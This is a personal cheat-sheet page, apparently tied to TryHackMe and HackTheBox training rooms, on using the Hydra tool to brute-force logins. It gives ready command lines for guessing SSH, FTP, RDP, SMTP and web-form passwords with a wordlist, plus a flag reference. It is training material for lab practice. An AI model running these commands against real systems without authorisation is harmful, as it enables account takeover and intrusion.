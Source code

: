 # hydra

[![hydra](../../../../_badges/thm/hydra.svg)](https://tryhackme.com/room/hydra)
[![adventofcyber4](../../../../_badges/thm/adventofcyber4/day5.svg)](https://tryhackme.com/room/adventofcyber4)
[![protocolsandservers2](../../../../_badges/thmp/protocolsandservers2.svg)](https://tryhackme.com/room/protocolsandservers2)
[![passwordattacks](../../../../_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)
[![agentsudoctf](../../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)
[![basicpentestingjt](../../../../_badges/thm-p/basicpentestingjt.svg)](https://tryhackme.com/room/basicpentestingjt)
[![netsecchallenge](../../../../_badges/thmp-p/netsecchallenge.svg)](https://tryhackme.com/room/netsecchallenge)
[![cowboyhacker](../../../../_badges/thm-p/cowboyhacker.svg)](https://tryhackme.com/room/cowboyhacker)
[![loginbruteforcing](../../../../../cybersecurity/_badges/htb/loginbruteforcing.svg)](https://academy.hackthebox.com/course/preview/login-brute-forcing)

<div class="row row-cols-lg-2"><div>

[Hydra](https://github.com/vanhauser-thc/thc-hydra) (7.6k ⭐) is a well-known tool to brute force authentication services such SSH, FTP, RDP, MySQL... It can even be used on login forms too, but that's uncommon.

```ps
$ wordlist=/usr/share/wordlists/rockyou.txt
# use ssh, ftp...
$ hydra -l username -P $wordlist ssh://IP
$ hydra -l username -P $wordlist ssh://IP:port
$ hydra -l username -P $wordlist ftp://IP
$ hydra -l username -P $wordlist rdp://IP
$ hydra -l xxx@xxx.xxx -P $wordlist smtp://IP
$ [...]
# alternate form
$ hydra -l username -P $wordlist IP ssh -s port
```

➡️ I use a variable `$wordlist` to write shorter commands. <br>
 You can learn more about [wordlists here](/cybersecurity/red-team/_knowledge/topics/wordlists.md) 🖋️.

⚠️ If you don't provide an username, hydra will try to find as many working credentials as possible. To stop at the first one, use `-f`.
</div><div class="align-self-center">

* `-l username`: try this username
* `-L file`: try a list of usernames
* `-p password`: try this password
* `-P file`: try a list of passwords
* `-C file`: instead of L/P, provide a list of "username:password"
* `-s port`: use another port
* `-t n`: use $n$ threads <small>(default: 16)</small> | `4` for services
* `-v` / `-d` : verbose / debug
* `-V`: show login+password for every attempt
* `-e [values]` such as `-e nsr` for all three
    * `n`: try null password
    * `s`: try login as pass
    * `r`: try reversed login
* `-f`: quit on first log in found
* `-u`: try all usernames for each password
</div></div>

<hr class="sep-both">

## Special uses

<div class="row row-cols-lg-2"><div>

#### form brute force

Try to brute force the account "toto". `^USER^`/`^PASS^` mean replace with the username/password. `username=`/`password=` are the name of the fields. `F=` is a word in the answer indicates a failure. See also: `S=`.

```shell!
$ hydra -l toto -P wordlist IP http-get-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
$ hydra -l toto -P wordlist IP http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* HTTP Basic Auth: `[...] IP http-get /`
</div><div>


</div></div>